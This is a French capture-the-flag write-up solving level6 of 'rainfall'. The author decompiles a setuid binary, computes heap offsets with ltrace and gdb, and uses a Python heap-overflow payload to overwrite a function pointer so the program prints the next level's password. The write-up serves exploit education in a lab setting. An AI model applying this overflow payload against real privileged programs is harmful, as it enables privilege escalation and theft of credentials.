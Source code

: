 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
/home/user/level6
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level6 :

```
$ ./level6
Segmentation fault (core dumped)
```

Je tente avec un input :

```
$ ./level6 da
Nope
```

J'utilise [Dogbolt](https://dogbolt.org/?id=bf99b17b-f29d-4c51-9cac-5055972d80ea) afin de décompiler le binaire du level 6 :

### Ghidra

```c
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5) {
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2) {
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```

### Hexray

```c
void n() {
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m() {
  puts("Nope");
  return;
}

int main(int argc, const char **argv, const char **envp) {
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```

J'extrapole le résultat du main de `Ghidra` et celui d'`Hexray`, particulièrement son appel à la structure `code`, et en déduit le pseudo-code suivant :

```c
int main(int argc, char **argv) {
  char *string;
  void (**ptr2func_ptr)(void);

  string = (char *)malloc(64);
  ptr2func_ptr = (void (**)(void))malloc(4);

  *ptr2func_ptr = m;
  strcpy(string, argv[1]);
  (*ptr2func_ptr)();
}
```

Je peux donc maintenant me concentrer sur les vulnérabilités que ce code présente. Ici, cela ressemble au premier level de `rainfall`, la particularité étant que la vulnérabilité ici semble être `strcpy`. Ce dernier ne prend pas de taille limite, et il utilise l'argument passé au binaire pour la copie.

Je me penche donc sur ce point d'entrée possible.
Je note également qu'il n'est pas question ici de la `stack`, mais de la `heap` puisque `malloc()` est utilisé.

Etant donné que la string est alloué sur la `heap` mais également le pointeur de pointeur sur function, alors je peux exploiter une vulnérabilité donc le but serait d'overflow la `heap` afin de ré-écrire où le pointeur de pointeur sur function pointe.

Ici, il s'agirait d'overflow `string` au moment de `strcpy()` en passant un argument `argv[1]` trop grand pour `string`.
Cet overflow aura pour but de ré-écrire ce sur quoi les 4 bytes alloué au pointeur sur fonction pointeront donc désormait.

Afin de construire un payload infecté, il me faut calculer la distance entre ces deux allocations sur la `heap`. J'utilise `ltrace` pour simplifier ce processus :

```
$ ltrace ./level6 da
__libc_start_main(0x804847c, 2, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                  = 0x0804a008 <-- ici
malloc(4)                   = 0x0804a050 <-- ici
strcpy(0x0804a008, "da")    = 0x0804a008
puts("Nope"Nope
)                           = 5
+++ exited (status 5) +++
```

Je peux calculer la distance : `0x0804a050 - 0x0804a008 = 0x48 (72 in decimal)`

Il faut donc que mon payload remplisse le buffer de 64 bytes, puis 8 bytes de bruit pour atteindre 72 et que les prochaines écriture ré-écrive sur l'adresse du pointeur sur fonction.

Je cherche maintenant l'adresse de la fonction `n()` avec `gdb` :

```
$ gdb ./level6
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp <-------------- ici
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

L'adresse de `n()` est : `0x08048454`.

Il ne me reste donc plus qu'à construire le payload.
Ce dernier aura pour but de remplir le buffer alloué dans la `heap` pour string, ajouter du bruit jusqu'atteindre l'endroit dans la `heap` où est écrit l'adresse de ce sur quoi pointe le pointeur sur fonction (pour le moment `m()`) et remplacer cette dernière par l'adresse de `n()`.

De manière similaire au précedents level, voici le payload qui exploite cette vulnérabilité :

```python
python -c 'print("\x90"*72 + "\x08\x04\x84\x54"[::-1])'
```

- Padding de 72 instructions `NOP` (no operations)
- L'adresse de `n()`

J'essaye ce payload :

```
$ ./level6 `python -c 'print("\x90"*72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

